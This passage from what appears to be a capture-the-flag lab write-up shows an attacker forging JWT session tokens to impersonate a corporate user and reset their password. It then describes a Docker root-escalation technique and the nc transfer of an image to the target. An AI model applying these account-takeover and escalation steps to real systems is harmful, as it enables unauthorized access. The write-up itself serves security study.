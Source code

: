 "jwt expired" meant the signature was verified but expired, otherwise it would display "invalid signature".

### JWT Forge
Now I could forge JWT tokens and authenticate as any user in the corporate domain.

As I required an account in the `engineer` group to perform a docker-based privilege escalation, I proceeded to forge a token for `richie.cormier`, a member of that group.

I ran `getent` to get the user ID.
```
elwin.jones@corporate-workstation-04:~$ getent passwd richie.cormier
richie.cormier:*:5027:5027:Richie Cormier:/home/guests/richie.cormier:/bin/bash
```

Then I used `cyberchef` to forge a JWT token. I also set the `requireCurrentPassword` to `false`, enabling a password reset without the current password.
![](Pasted%20image%2020251010092123.png)

I inserted the token as a cookie, and successfully authenticated as `richie.cormier`.
![](Pasted%20image%2020251010091938.png)

In the `corporate-sso` source code I found the password resetting page was at `/reset-password`. I visited the page and reset the user password to `Password1`.
![](Pasted%20image%2020251010092546.png)

Then I was able to login via SSH as `richie.cormier`, who was in the `engineer` group.
```
❯ ssh richie.cormier@10.9.0.4
richie.cormier@10.9.0.4's password:
<SNIP>
richie.cormier@corporate-workstation-04:~$ id
uid=5027(richie.cormier) gid=5027(richie.cormier) groups=5027(richie.cormier),502(engineer)
```

## Root (Workstation)
### Docker Privilege Escalation
The user could run docker commands, but no container image was installed.
```
richie.cormier@corporate-workstation-04:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

The technique for escalating privileges via Docker is to create a container, mount the root filesystem into it, and then enter the container with an interactive shell to access the root filesystem.

I downloaded the alpine image and transferred it to the target.
```
❯ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
2d35ebdb57d9: Pull complete
Digest: sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

❯ docker save -o alpine.docker alpine

# ON TARGET MACHINE
richie.cormier@corporate-workstation-04:~$ nc -lp 8888 > alpine.docker

# ON LOCAL MACHINE
❯ pv alpine.docker | nc -q 0 10.9.0.4 8888
8.22MiB 0:00:11 [ 741KiB/s] [==================================================================>] 100%
```